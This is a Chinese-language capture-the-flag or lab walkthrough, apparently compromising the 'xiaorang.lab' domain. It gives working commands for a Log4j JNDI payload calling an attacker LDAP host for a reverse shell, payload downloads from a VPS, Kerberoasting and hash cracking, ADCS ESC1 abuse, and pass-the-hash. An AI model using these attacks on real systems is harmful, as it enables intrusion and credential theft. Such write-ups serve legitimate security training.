


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->

### 信息收集


发现`Solr Admin`框架，访问网站，


发现`Log4j`插件，`DNSlog`测试出可以打`Log4j`的RCE。

```
/solr/admin/collections?action=${jndi:ldap://0pzyoq.dnslog.cn}
```


 `JNDI`反弹shell，监听端口

```
 http://39.98.107.27:8983/solr/admin/collections?action=${jndi:ldap://47.79.41.42:1389/Basic/ReverseShell/47.79.41.42/9001
```

```
root@s35173:~# java -jar JNDIExploit.jar -i 47.79.41.42
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 3456...
[+] Received LDAP Query: Basic/ReverseShell/47.79.41.42/9001
[+] Paylaod: reverseshell
[+] IP: 47.79.41.42
[+] Port: 9001
[+] Sending LDAP ResourceRef result for Basic/ReverseShell/47.79.41.42/9001 with basic remote reference payload
[+] Send LDAP reference result for Basic/ReverseShell/47.79.41.42/9001 redirecting to http://47.79.41.42:3456/ExploitoCciamotto.class
[+] New HTTP Request From /39.98.107.27:57214  /ExploitoCciamotto.class
[+] Receive ClassRequest: ExploitoCciamotto.class
[+] Response Code: 200

root@s35173:~# nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 39.98.107.27 56706
bash: cannot set terminal process group (17155): Inappropriate ioctl for device
bash: no job control in this shell
```


`sudo grc`提权

```
sudo /usr/bin/grc --pty /bin/sh
```


将`chisel`和`fscan`上传到vps，vps上启动python的web服务。在shell中使用`wget`下载

```
wget http://47.79.41.42:12345/fscan
wget http://47.79.41.42:12345/chisel
```





查看网段，为接下来使用`fscan`确认好目标

```
ip addr
```




给`fscan`和`chisel`执行权限

```
chmod 777 fscan
chmod 777 chisel
```

查看网段内的主机和开启端口服务

```
./fscan -h 172.22.9.0/24    

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.9.19     is alive
(icmp) Target 172.22.9.26     is alive
(icmp) Target 172.22.9.7      is alive
(icmp) Target 172.22.9.47     is alive
[*] Icmp alive hosts len is: 4
172.22.9.7:80 open
172.22.9.47:80 open
172.22.9.47:22 open
172.22.9.47:21 open
172.22.9.19:80 open
172.22.9.19:22 open
172.22.9.47:445 open
172.22.9.7:445 open
172.22.9.26:445 open
172.22.9.7:139 open
172.22.9.26:139 open
172.22.9.47:139 open
172.22.9.7:135 open
172.22.9.26:135 open
172.22.9.7:88 open
172.22.9.19:8983 open
[*] alive ports len is: 16
start vulscan
[*] WebTitle http://172.22.9.19        code:200 len:612    title:Welcome to nginx!
[*] WebTitle http://172.22.9.47        code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] WebTitle http://172.22.9.7         code:200 len:703    title:IIS Windows Server
[*] NetBios 172.22.9.7      [+] DC:XIAORANG\XIAORANG-DC    
[*] NetInfo 
[*]172.22.9.7
   [->]XIAORANG-DC
   [->]172.22.9.7
[*] NetInfo 
[*]172.22.9.26
   [->]DESKTOP-CBKTVMO
   [->]172.22.9.26
[*] NetBios 172.22.9.47     fileserver                          Windows 6.1
[*] NetBios 172.22.9.26     DESKTOP-CBKTVMO.xiaorang.lab        Windows Server 2016 Datacenter 14393
[*] OsInfo 172.22.9.47  (Windows 6.1)
[*] WebTitle http://172.22.9.19:8983   code:302 len:0      title:None 跳转url: http://172.22.9.19:8983/solr/
[+] PocScan http://172.22.9.7 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle http://172.22.9.19:8983/solr/ code:200 len:16555  title:Solr Admin
已完成 15/16 [-] ftp 172.22.9.47:21 ftp ftp123 530 Login incorrect. 
已完成 16/16
[*] 扫描结束,耗时: 1m27.850362197s
```

```
172.22.9.7 # DC  XIAORANG\XIAORANG-DC
172.22.9.13:CA
172.22.9.19 # 本机 
172.22.9.26 # DESKTOP-CBKTVMO.xiaorang.lab 
172.22.9.47 # Ubuntu fileserver
```

使用`chisel`内网穿透，

```
./chisel client 47.121.122.139:9001 R:0.0.0.0:9002:socks
./chisel server -p 9001 --reverse
```

kali虚拟机设置`proxychains4`代理,smb远程连接

```
proxychains4 smbclient -L 172.22.9.47
```


进入共享文件夹

```
proxychains4 smbclient \\\\172.22.9.47\\fileshare
```

此时顺便将数据库文件get下来


拿到flag02


查看数据库文件


用户名未知，导出user，利用user进行rdp爆破，尝试远程登陆

```
proxychains hydra -L user.txt -P passwd.txt 172.22.9.26 rdp -vV -e ns
```

```
zhangjian@xiaorang.lab:i9XDE02pLVf 
liupeng@xiaorang.lab:fiAzGwEMgTY
```

尝试登录，但是失败，根据flag02提示，查一下用户的SPN

```
python GetUserSPNs.py -dc-ip 172.22.9.7 xiaorang.lab/zhangjian:i9XDE02pLVf
```


请求`zhangxia`用户的`TGS Tickets`

```
 proxychains4 python GetUserSPNs.py -dc-ip 172.22.9.7 xiaorang.lab/zhangjian:i9XDE02pLVf -request-user zhangxia
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.13.0.dev0+20250220.93348.6315ebd5 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  47.121.122.139:9002  ...  172.22.9.7:389  ...  OK
ServicePrincipalName                   Name      MemberOf  PasswordLastSet             LastLogon                   Delegation 
-------------------------------------  --------  --------  --------------------------  --------------------------  ----------
TERMSERV/desktop-cbktvmo.xiaorang.lab  zhangxia            2023-07-14 00:45:45.213944  2025-03-10 09:15:03.038277             
WWW/desktop-cbktvmo.xiaorang.lab/IIS   zhangxia            2023-07-14 00:45:45.213944  2025-03-10 09:15:03.038277             


[-] CCache file is not found. Skipping...
[proxychains] Strict chain  ...  47.121.122.139:9002  ...  172.22.9.7:88  ...  OK
[proxychains] Strict chain  ...  47.121.122.139:9002  ...  172.22.9.7:88  ...  OK
[proxychains] Strict chain  ...  47.121.122.139:9002  ...  172.22.9.7:88  ...  OK
$krb5tgs$23$*zhangxia$XIAORANG.LAB$xiaorang.lab/zhangxia*$f85d248237fa78354a4ce81df9676376$e2a19de4dfe14a160053390528fb66535bd34006ff68cbaa432f0eadb82a263969af5faf11f6d5645180afeff9df456545a688f602d2900d84164d68297a92d4df66c23fe76903c7414ebdbb38dc50493dd8766e45da5e798250aaf86fdb99279609e142d1d80693175c7d823df7b21f322e1d4f1272de52656f56e2d85673a7b6c4de5d0bc622a2bacb330a9d1e197e1e30ad4acfee1c89742a8cc00638de6fd899cf971587c7d63b7d79911762899c9b7116d6e04696b03802fead84ed127c2d4fcc2c0965e634572e1003b55891a3cb1724a79811b863745014068e7d885cdbc1031611f63cafd02cfcf19e650fd3972703bf1513e2d6adc543be908c012bdfd91914052f1a07342ec9c6f90f76380cb817f434f5321b587f336b4e3af4c1f8cee812097493da58bea89d9762d08f09d40f90a1ad7c515ac5a69be4629b6faa59228ba95b4fd2eb81fa6cb91ec8521a641a5cbe2fb19e0c17950340c79620760ee34dc0211e70a25692159dd2525bb3eed643feaec46cd35357246920a44df06e62730dcb36127b66710b9dd6bb4d31df6311d5120fbe45e35d49ddaa5aaac4813aad91cac027153d3ed7fc44892c059656a2b7fb1ebcca6c2732af08745d25df44911fea3b0549f3f430dbcb0193094e50dde035625df8b6566e491cd02ec8b2981870e7f49b2308a0a5b5bdcca39e00a2d23efedd2e3130307a17a891cce53e6f0a5e4f174a078ff8c53a0542a5ba18c437e0781c92fba1bcfc1e5413b3a8b162d945d9a50c361eb86bb75bb62be6e0d366102e4fdf2140e2a525e4040612544fb7d2a3636886b97413c141a4fbcc70d06763e12d53ee438a05042896020b96a183841a3515e27d7ac99052b64b6cea68bdf85437abb7c4a384ecc144066274afbf91598584d15d25ff2f468835e2aed5c05da7998407207a1483859f1933aa58e3e26826670f1685ffb11017c1cca627a81a5403ced81827f4a8a6aded342d9cc674c97b672a2f5b0ee60f01959da32783c72677a5215ed04a4e09c25ece02312bb07c96b9209ad7907e6bd72e2001b83681bb109a947417ef13ec4b452f7f2d0bde89b012757214fb716bd049661312cc812a490445bbdd3ee346bf791289822d7062a10480cb9a4689f9e93db7c2bb92158c61d59411a2a2054659fd758c3773500744e413689d0785779f520a90eaf313a57f1ee2d643419be99078a75135330ed1a1686236f1be9dcf72163264ab2e90cdf61bce7aac5202a982a0e8b9083bb5ce135921daab0f5b51c4d433987bf47c039c48c118658056c59c84ccf3d32a02a6cdd14447273d14889896b412683d4b69e0e7bd4923f9e963904ffe99cf81ea1dd1b607eda71b6bae59a0dbf857f4e141a1d7abfe437f702750bac90de1c38535ec856c3513e65f9d634186748648c38f9ce769b39c9b9ac7b05e93523f1b263923af1c8d7d32980b61264d7f03f4b8345623739ea6d37a8e273a01d94930e8dcc8a21aaf0071614b
```

过呢据前面的格式且在`TGS REP`过程，参数为

```
13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol
```

hashcat爆一下

```
hashcat -a 0 -m 13100 1.txt rockyou.txt
```


尝试进行rdp登录

```
proxychains4 xfreerdp /v:172.22.9.26 /u:XIAORANG.LAB\\zhangxia /p:MyPass2@@6 /sec:credsspd
```

登录以后发现是域账号（最低权限），登陆后不能访问administrator目录查找flag。
查看证书情况

```
proxychains4 certipy-ad find -u 'zhangxia@xiaorang.lab'  -password 'MyPass2@@6' -dc-ip 172.22.9.7 -vulnerable -stdout
```


修改`/etc/hosts`，避免超时

```
172.22.9.13 CA01.xiaorang.lab
```

利用`ESC1`

```
proxychains4 certipy-ad req -u 'zhangxia@xiaorang.lab' -p 'MyPass2@@6' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca 'xiaorang-XIAORANG-DC-CA' -template 'XR Manager' -upn 'administrator@xiaorang.lab'
```


再拿生成的administrator.pfx获取域管哈希

```
proxychains4 certipy-ad auth -pfx administrator.pfx -dc-ip 172.22.9.7
```


pth传递拿到域管理

```
proxychains4 impacket-smbexec -hashes :2f1b57eefb2d152196836b0516abea80 xiaorang.lab/administrator@172.22.9.26
```


读取flag03

```
type c:\users\administrator\flag\flag03.txt
```


通过域控哈希拿其他主机

```
proxychains4 impacket-smbexec -hashes :2f1b57eefb2d152196836b0516abea80 xiaorang.lab/administrator@172.22.9.7
```

读取flag

```
type c:\users\administrator\flag\flag04.txt
```


